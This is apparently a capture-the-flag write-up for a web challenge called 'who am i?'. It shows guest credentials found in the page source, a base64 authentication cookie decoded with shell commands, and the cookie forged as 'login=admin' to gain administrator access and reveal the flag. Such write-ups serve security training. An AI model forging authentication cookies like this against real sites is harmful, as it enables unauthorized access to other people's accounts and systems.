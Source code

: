# Challenge Name:
 [*who am i?*](https://cybertalents.com/challenges/web/who-am-i)
 
# Challenge Description
Do not Start a fight you can not stop it


Link: [http://34.76.107.218/whoami/](http://34.76.107.218/whoami/)

## Answer
* Open inspect from (ctrl + shift + c) then scroll down ther is an account details
```
			Guest Account:
			-=-=-=-=-=-=-=-
			Username:Guest
		    Password:Guest  
```
* Use above data to Login 
* Using Burbsuit or cookie-editor to see cookies
```
Authentication=bG9naW49R3Vlc3Q%3D
```
* From URL encode "%3d" implies "=" so current cookies equal "bG9naW49R3Vlc3Q=" (Base64 decode)
* Decode base64 using linux command
```bash
echo 'bG9naW49R3Vlc3Q=' | base64 -d
login=Guest
```
* Now we want to change 'Guest' to 'admin' then encode it
```bash
echo 'login=admin' | base64
bG9naW49YWRtaW4K
```
* If you try it using Guest instead of admin you will see that it ends in 'k' but in cookies he remove it then appeand '=' (in URL encode '%3d')
* Change website cookies to what we have generate (bG9naW49YWRtaW4%3D)
* Reload the page
* You got the password!!


 ## The Flag
 > FLag{B@D_4uTh1Nt1C4Ti0n}  
